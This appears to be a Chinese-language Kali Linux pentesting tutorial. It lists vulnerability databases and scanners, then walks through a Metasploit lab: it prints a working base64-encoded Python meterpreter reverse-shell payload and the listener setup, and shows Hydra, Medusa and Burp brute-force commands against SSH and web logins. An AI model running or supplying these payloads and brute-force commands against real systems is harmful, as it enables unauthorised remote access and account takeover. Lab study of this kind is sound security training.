





2023-02-27
Kali漏洞分析利用
修改于: 2023-02-27经过 Kali信息收集 收集到的资产
- 联系人、联系方式
- 域名和子域名
- IP、端口信息
- 操作系统、应用程序、框架、数据库、版本信息
- 网站文件（目录扫描）
- 搜索引擎和网络空间测绘收集到的信息
- ...
漏洞数据库
CVE (Common Vulnerabilities & ExposUres ） (通用漏洞共享平台):
https://cve.mitre.org/ https://www.cvedetails.com/ https://www.cnvd.org/cn/ https://nox.qianxin.com/vulnerability
国内的:
# 国家 https://www.cnvd.org.cn/ # 奇安信 https://ti.qianxin.com/ https://ti.qianxin.com/vulnerability/
一般漏洞编号:
CVE + 年份 + 编号
如:
CVE-2004-1137
漏洞利用工具集
- POC: Proof Of Concept(观念验证)
- EXP: Exploit 利用(漏洞利用)
可用漏洞利用网站:
https://www.exploit-db.com/
- 相关指令:
- msfconsole 的 searchsploit
- pocsuite
注解
如果自己要做一个漏洞搜集的汇总网站, 可以github搜索: pocsuite

提供了一个基础的框架
漏洞扫描工具
- 商业漏洞扫描工具
- Appscan
- Nessus
- OpenVAS
- ...
- 免费的
- goby (红队是收费版)
- Burp
- https://github.com/k8gege/Ladon
国产的

注解
一般不允许使用漏洞扫描工具扫描线上服务, 因为会建立大量请求, 说不定就直接把你封了(同ip大量请求)
一般就内部未上线的用下
msf反弹连接
msf使用见 msfconsole
实例
生成payload, 指令详见 msfvenom, 生成一个python版本的payload:
# msfvenom -p python/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.py # LHOST=攻击机IP 一般为自己本机ip(本机就是攻击机) # LPORT=攻击机端口 随便 msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.186.133 LPORT=8889 -f raw -o payload.py
攻击机生成payload
攻击机生成:
┌──(kali㉿kali)-[~/test]
└─$ msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.186.133 LPORT=8889 -f raw -o payload.py
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::NAME
...
┌──(kali㉿kali)-[~/test]
└─$
┌──(kali㉿kali)-[~/test]
└─$ cat payload.py
exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('aW1wb3J0IHNvY2tldCx6bGliLGJhc2U2NCxzdHJ1Y3QsdGltZQpmb3IgeCBpbiByYW5nZSgxMCk6Cgl0cnk6CgkJcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQoJCXMuY29ubmVjdCgoJzE5Mi4xNjguMTg2LjEzMycsODg4OSkpCgkJYnJlYWsKCWV4Y2VwdDoKCQl0aW1lLnNsZWVwKDUpCmw9c3RydWN0LnVucGFjaygnPkknLHMucmVjdig0KSlbMF0KZD1zLnJlY3YobCkKd2hpbGUgbGVuKGQpPGw6CglkKz1zLnJlY3YobC1sZW4oZCkpCmV4ZWMoemxpYi5kZWNvbXByZXNzKGJhc2U2NC5iNjRkZWNvZGUoZCkpLHsncyc6c30pCg==')[0]))
将payload传递到靶机
利用漏洞将生成的 payload.py 上传到目标机器
攻击机使用msf监听
指令:
# 进入msf控制台 msfconsole # 使用监听模块 use exploit/multi/handler # 设置payload类型 注意跟上面生成时使用的模块要一致 set payload python/meterpreter/reverse_tcp set lhost 攻击机IP set lport 攻击机端口 exploit
实例:
msf6 > use exploit/multi/handler [*] Using configured payload generic/shell_reverse_tcp msf6 exploit(multi/handler) > set payload python/meterpreter/reverse_tcp payload => python/meterpreter/reverse_tcp msf6 exploit(multi/handler) > set lhost 192.168.186.133 lhost => 192.168.186.133 msf6 exploit(multi/handler) > set lport 8889 lport => 8889 msf6 exploit(multi/handler) > msf6 exploit(multi/handler) > exploit [*] Started reverse TCP handler on 192.168.186.133:8889
当靶机触发payload时候:
[*] Sending stage (40168 bytes) to 192.168.186.129 [*] Meterpreter session 1 opened (192.168.186.133:8889 -> 192.168.186.129:53686) at 2024-02-25 21:56:55 +0800 meterpreter >
即获取到 192.168.186.129 的反弹shell
执行个 dir 指令:
meterpreter > dir
Listing: D:\Project\DevTools\phpStudy_64\phpstudy_pro\WWW\test
==============================================================
Mode Size Type Last modified Name
---- ---- ---- ------------- ----
100666/rw-rw-rw- 503 fil 2024-02-25 21:53:44 +08 pl.py
00
meterpreter >
Burp Suite爆破web密码
bp拦截成功后将其转入 Intruder

然后选择 Sniper (狙击手) 模式即可

设置好 Payload 后点击 Start attack 开始攻击

效果
可以看出当密码正确时候, 响应长度可以作为判断是否成功标志(还是得看情况)
Hydra爆破Linux密码
- 相关指令:
三种工具:
hydra -L username.txt -P password.txt 192.168.142.66 ssh medusa -M ssh -h 192.168.142.66 -u root -P password.txt msfconsole use auxiliary/scanner/ssh/ssh_login set RHOSTS 192.168.142.66 set PASS_FILE password.txt set USER_FILE username.txt exploit